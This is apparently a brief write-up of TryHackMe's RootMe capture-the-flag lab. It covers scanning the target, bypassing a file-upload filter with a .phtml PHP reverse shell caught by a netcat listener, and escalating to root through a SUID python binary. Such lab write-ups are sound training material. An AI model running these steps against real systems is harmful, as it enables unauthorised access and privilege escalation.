 # RootMe

This is a (very) brief write-up for [TryHackMe's RootMe CTF](https://tryhackme.com/room/rrootme). 

## Recon

### nmap 
`$ nmap -A 10.10.85.168`


>PORT   STATE SERVICE VERSION\
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)\
| ssh-hostkey: \
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)\
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)\
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (EdDSA)\
\
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))\
| http-cookie-flags: \
|   /: \
|     PHPSESSID: \
|_      httponly flag not set\
|_http-server-header: Apache/2.4.29 (Ubuntu)\
|_http-title: HackIT - Home\
MAC Address: 02:F6:41:A2:CA:67 (Unknown)\
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).\
TCP/IP fingerprint:\
OS:SCAN(V=7.60%E=4%D=6/22%OT=22%CT=1%CU=37178%PV=Y%DS=1%DC=D%G=Y%M=02F641%T
OS:M=6494B96F%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)
OS:OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=
OS:M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6
OS:=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=
OS:O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD
OS:=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0
OS:%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI
OS:=N%T=40%CD=S)\
Network Distance: 1 hop\
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel\
TRACEROUTE\
HOP RTT      ADDRESS\
1   18.56 ms ip-10-10-85-168.eu-west-1.compute.internal (10.10.85.168)

### Gobuster

`$ gobuster dir -u 10.10.85.168 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

>/uploads (Status: 301)\
/css (Status: 301)\
/js (Status: 301)\
/panel (Status: 301)\
/server-status (Status: 403)

## Shell

http://10.10.85.168/panel/ has a file upload form.

Use [Pentest Monkey's php shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and change the file extention to `.phtml` because `.php` is blocked. 

`$ nc -nvlp 9001` so we can listen for the shell to connect back.

Go to 
http://10.10.85.168/uploads/ and click the shell to activate it. 

### Stabalizing the shell

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`\
CTRL + z\
`$ stty raw -echo; fg`\
`$ export TERM=xterm`

The shell is stable and we see that we are `www-data`.

## Escalation

`$ find / -user root -perm /4000 2>/dev/null` to find files with SUID set.

`/usr/bin/python` is unusual. [What does it say on GTFOBins?](https://gtfobins.github.io/gtfobins/python/#suid)

`$ python -c 'import os; os.execl("/bin/bash", "bash", "-p")'`
We have a root shell now!
